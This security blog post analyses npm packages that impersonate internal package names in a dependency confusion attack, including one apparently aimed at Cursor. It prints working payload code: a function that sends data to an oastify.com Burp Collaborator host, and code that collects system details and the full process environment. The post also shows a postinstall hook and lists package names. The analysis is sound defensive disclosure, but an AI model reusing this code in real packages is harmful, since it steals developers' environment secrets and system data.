 ```yaml
---
publishDate: 2025-01-16T00:00:00Z
title: 'Malicious npm Packages using Burp Collaborator for Dependency Confusion Attack'
image: /images/burp-collaborator-dependency-confusion.png
excerpt: Multiple npm packages impersonating popular package names were published to the npm registry including by a Snyk researcher apparently targeting internal packages at Cursor AI.
tags:
  - npm
  - malware
---
```


Recently a Hacker News discussion on [Snyk security researcher deploys
malicious NPM packages targeting
cursor.com](https://news.ycombinator.com/item?id=42690473) highlighted
interesting insights related to using Burp Collaborator's `oastify.com` as
[Command and Control](#) (C2) server for exfiltrating data. In this particular
case, the researcher published multiple npm packages to the public npm registry
apparently targeting internal packages at Cursor in a [dependency confusion](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) attack.

## SafeDep Analysis

Our [Malicious Package Scanner](https://docs.safedep.io/cloud/malware-analysis) deployed to monitor `npm` registry for malicious packages
identified similar patterns in multiple packages published during the month of January 2025. In fact a simple query
identified 50+ such packages.

![](/images/malysis-npm-oastify.jpeg)

### Looking at a Sample

We took a closer look at one of the samples `pkg:/npm/patternfly-v5/patternfly@1.0.2`. 
The sample contained the following files:

```
-rw-r--r--  1 dev  wheel  1365 Oct 26  1985 index.js
-rw-r--r--  1 dev  wheel   283 Oct 26  1985 package.json
-rw-r--r--  1 dev  wheel     0 Oct 26  1985 patternfly-addons.css
-rw-r--r--  1 dev  wheel     0 Oct 26  1985 patternfly.min.css
```

The `package.json` had a `postinstall` script to execute the payload:

```json
{
  "name": "@patternfly-v5/patternfly",
  "version": "1.0.2",
  "description": "A package for testing supply chain attacks.",
  "main": "index.js",
  "scripts": {
    "postinstall": "echo 'Patternfly malicious package executed!'"
  },
  "author": "Your Name",
  "license": "MIT"
}
```

The payload was in `index.js` and contained exfiltration logic such as

```javascript
function sendData(path, data) {
  const options = {
    hostname: 'rzucd2dfiuz08dnqwkigu37xfolf95xu.oastify.com',
    port: 443,
    path: `/${path}`,
    method: 'GET',
    headers: {
      'Content-Type': 'application/json'
    }
  };

  const req = https.request(options, (res) => {
    console.log(`Status: ${res.statusCode}`);
  });

  req.on('error', (error) => {
    console.error(`Error: ${error.message}`);
  });

  req.write(JSON.stringify(data));
  req.end();
}
```

Followed by system information gathering code

```javascript
const systemInfo = {
  hostname: os.hostname(),
  platform: os.platform(),
  arch: os.arch(),
  release: os.release(),
  userInfo: os.userInfo(),
  networkInterfaces: os.networkInterfaces(),
  env: process.env
};
```

### Example Packages using `oastify.com` for Exfiltration

| Package                                     | SafeDep Malicious Package Scanning Result                                                                |
| ------------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| `chrome-api-utils@1.1.0`                    | [🔗 01JGPYQTZJGM0Y5BYZWZ0757P3](https://platform.safedep.io/community/malysis/01JGPYQTZJGM0Y5BYZWZ0757P3) |
| `grafana-sentry-datasource@1.0.4`           | [🔗 01JH3FWEBCCXBGGRTN286Z5ARP](https://platform.safedep.io/community/malysis/01JH3FWEBCCXBGGRTN286Z5ARP) |
| `@patternfly-v5/patternfly@1.0.2`           | [🔗 01JH0BKSY7Y2DNG7QB137S6J6F](https://platform.safedep.io/community/malysis/01JH0BKSY7Y2DNG7QB137S6J6F) |
| `electron-builder-13@13.4.5`                | [🔗 01JH01T0FQQ14NX3DKNJXG0SPC](https://platform.safedep.io/community/malysis/01JH01T0FQQ14NX3DKNJXG0SPC) |
| `graphql.vscode-graphql-syntax@99.99.99`    | [🔗 01JF2FS909Y3SHC099S6ETY7X1](https://platform.safedep.io/community/malysis/01JF2FS909Y3SHC099S6ETY7X1) |
| `mattermost-cloudnative-bootstrapper@1.0.0` | [🔗 01JF1PE7YACMTYBQGG59VVHDZ1](https://platform.safedep.io/community/malysis/01JF1PE7YACMTYBQGG59VVHDZ1) |

## Conclusion

All packages appeared to be similar in nature i.e. leveraged Burp Suite's [Collaborator](https://portswigger.net/burp/documentation/collaborator)
service as a public endpoint for capturing exfiltrated data. We did not observe any sophistication or attempt
to conceal malicious behavior. This potentially indicate red team activity or unsophisticated threat actor groups.